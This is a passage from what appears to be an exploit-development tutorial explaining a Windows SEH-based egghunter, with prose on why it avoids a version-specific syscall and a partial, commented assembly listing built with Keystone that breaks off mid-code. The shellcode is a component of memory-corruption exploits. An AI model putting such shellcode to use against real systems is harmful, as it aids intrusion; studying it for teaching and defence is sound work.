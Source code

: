 When doing the classical egghunter shellcode, we observed that the NtAccessCheckAndAuditAlarm function did not work because the system call number was changed between Windows versions.
We fixed this by changing the system call number, but this fix comes at the cost of portability. In order for our exploit to work, we would have to identify the Windows version beforehand to craft a proper exploit.

In this case, we are going to make an egghunter that does not use the NtAccessCheckAndAuditAlarm function (remember that we used this function in order to **check in a safe way if we have right access to the memory**, as this function handles errors) and we are going to **handle the error** manually when checking if the memory region is accessible. This way, we won't depend on this system call and we won't need to have specific SSNs depending on the Windows versions.

The downside to this mechanism is that the egghunter requires additional assembly instructions **in order to set up the SEH mechanism**- the original egghunter was around 35 bytes whereas this egghunter is 60 bytes. However, it is still smaller than a normal shellcode and it can help if we have space.

Let's analyze the code of this SEH-based egghunter:
```python
from keystone import *  
CODE = (  
" start: "  
 # jump to a negative call to dynamically  
 # obtain egghunter position
 " jmp get_seh_address ;"  
" build_exception_record: "  
 # pop the address of the exception_handler  
 # into ecx
 " pop ecx ;"  
 # mov signature into eax  
" mov eax, 0x74303077 ;"  
 # push Handler of the  
 # _EXCEPTION_REGISTRATION_RECORD structure
 " push ecx ;"  
 # push Next of the  
 # _EXCEPTION_REGISTRATION_RECORD structure
 " push 0xffffffff ;"  
 # null out ebx  
" xor ebx, ebx ;"  
 # overwrite ExceptionList in the TEB with a pointer  
 # to our new _EXCEPTION_REGISTRATION_RECORD structure
 " mov dword ptr fs:[ebx], esp ;"  
" is_egg: "  
 # push 0x02  
" push 0x02 ;"  
 # pop the value into ecx which will act  
 # as a counter
 " pop ecx ;"  
 # mov memory address into edi  
" mov edi, ebx ;"  
 # check for our signature, if the page is invalid we  
 # trigger an exception and jump to our exception_handler function
 " repe scasd ;"  
 # if we didn't find signature, increase ebx  
 # and repeat
 " jnz loop_inc_one ;"  
 # we found our signature and will jump to it  
" jmp edi ;"  
" loop_inc_page: "  
 # if page is invalid the exception_handler will  
 # update eip to point here and we move to next page
 " or bx, 0xfff ;"  
" loop_inc_one: "  
 # increase ebx by one byte  
" inc ebx ;"  
```